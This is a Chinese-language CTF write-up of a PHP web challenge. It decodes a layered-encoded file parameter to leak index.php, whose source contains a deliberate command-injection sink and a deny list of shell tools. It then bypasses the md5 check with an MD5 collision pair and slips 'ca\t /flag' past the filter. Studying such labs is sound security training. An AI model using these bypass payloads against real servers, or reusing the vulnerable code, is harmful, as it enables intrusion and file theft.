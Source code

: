 ![[Pasted image 20221118110609.png]]

---
首页长这样

![[Pasted image 20221118110637.png]]

自动跳转到了这个url
```php
/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

---
`img`参数的值可能经过了`base64`编码

![[Pasted image 20221118112321.png]]

![[Pasted image 20221118112331.png]]

似乎还是套娃编码

---
首页提示`md5 is funny ~`，就这么被带偏了，以为最后这串是md5，结果想解密提示格式都不对，绕了好久才发现这原来是个简单的16进制编码

![[Pasted image 20221118112610.png]]

---
搞懂了`img`参数的编码，尝试逆用这一点获取`index.php`的文件内容
```php
/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

![[Pasted image 20221118112846.png]]
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

---
ctf3.jpeg（~~充满恶意~~嘲讽拉满）

![[Pasted image 20221118113435.png]]

---
![[Pasted image 20221118190742.png]]

如上，由于对`POST`参数进行了向`string`类型的强制类型转换，而`php`默认行为并非对数组及其各个元素进行向字符串的转换，而是直接返回`'Array'`，因此第一个比较的结果便为假，削减了利用数组绕过`md5`的可行性

这里的`md5`需要通过强碰撞绕过

~~在网上找现成的强碰撞`payload`找了半天呜呜呜~~

```php
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里还踩了一个坑，就是`POST`要加一个`Content-Type`头，并将值设为`application/x-www-form-urlencoded`，告诉服务器这段`POST`数据已经`url`编码过了

---
然后是`cmd`参数的构造，这个题的绕过还是比较氵的
```php
cmd=ca\t /flag
```
原理大致就是，对于`preg_match`来说，`\t`被转义成了横向制表符，因而没有被过滤；而对于`sh`来说，`\t`被解析为`t`，因此`payload`依然被作为`cat /flag`执行

#Web #md5 #PHP #bypass #shell #encoding